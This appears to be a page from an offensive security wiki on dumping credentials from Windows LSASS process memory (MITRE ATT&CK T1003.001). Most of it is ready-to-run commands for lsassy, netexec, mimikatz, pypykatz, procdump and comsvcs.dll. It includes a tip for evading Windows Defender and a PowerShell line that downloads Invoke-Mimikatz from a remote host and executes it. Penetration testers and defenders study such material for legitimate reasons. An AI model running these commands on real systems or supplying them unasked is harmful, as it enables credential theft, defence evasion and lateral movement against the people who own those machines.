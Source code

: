 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.001
---
```


# LSASS secrets

## Theory

The Local Security Authority Subsystem Service (LSASS) is a Windows service responsible for enforcing the security policy on the system. It verifies users logging in, handles password changes and creates access tokens. Those operations lead to the storage of credential material in the process memory of LSASS. **With administrative rights only**, this material can be harvested (either locally or remotely).

## Practice

{% tabs %}
{% tab title="Lsassy" %}
[Lsassy](https://github.com/Hackndo/lsassy) (Python) can be used to remotely extract credentials, from LSASS, on multiple hosts. As of today (22/07/2020), it is the Rolls-Royce of remote lsass credential harvesting.

* several dumping methods: comsvcs.dll, [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [Dumpert](https://github.com/outflanknl/Dumpert)
* several authentication methods: like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)
* it can be used either as a standalone script, as a [NetExec](https://github.com/Pennyw0rth/NetExec) module or as a Python library
* it can interact with a Neo4j database to set [BloodHound](https://github.com/BloodHoundAD/BloodHound) targets as "owned"

```bash
# With pass-the-hash (NTLM)
lsassy -u $USER -H $NThash $TARGETS

# With plaintext credentials
lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS

# With pass-the-ticket (Kerberos)
lsassy -k $TARGETS

# netexec Module examples
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
netexec smb $TARGETS -k -M lsassy
netexec smb $TARGETS -k -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials with [`sekurlsa::logonpasswords`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords) from lsass's process memory, or remotely with [`sekurlsa::minidump`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/minidump) to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
# (Locally) extract credentials from LSASS process memory
sekurlsa::logonpasswords

# (Remotely) analyze a memory dump
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

For Windows 2000, a special version of mimikatz called mimilove can be used.
{% endtab %}

{% tab title="Pypykatz" %}
[Pypykatz](https://github.com/skelsec/pypykatz) (Python) can be used remotely (i.e. offline) to analyze a memory dump (dumped with [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) for example).

```bash
pypykatz lsa minidump lsass.dmp
```
{% endtab %}

{% tab title="ProcDump" %}
The legitimate tool [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) (from [sysinternals](https://docs.microsoft.com/en-us/sysinternals/)) ([download](https://live.sysinternals.com/)) can be used to dump lsass's process memory.

```bash
procdump -accepteula -ma lsass lsass.dmp
```

{% hint style="info" %}
Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.
{% endhint %}

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
procdump -accepteula -ma $lsass_pid lsass.dmp
```

Once the memory dump is finished, it can be analyzed with [mimikatz](https://github.com/gentilkiwi/mimikatz) (Windows) or [pypykatz](https://github.com/skelsec/pypykatz) (Python, cross-platform).
{% endtab %}

{% tab title="comsvcs.dll" %}
The native comsvcs.dll DLL found in `C:\Windows\system32` can be used with rundll32 to dump LSASS's process memory.

```bash
# Find lsass's pid
tasklist /fi "imagename eq lsass.exe"

# Dump lsass's process memory
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```
{% endtab %}

{% tab title="PowerSploit" %}
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s exfiltration script [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) (PowerShell) can be used to extract credential material from LSASS's process memory.

```bash
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endtab %}
{% endtabs %}

Recovered credential material could be either plaintext passwords or NT hash that can be used with [pass the hash](../../ntlm/pth.md) (depending on the context).

## Resources

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}
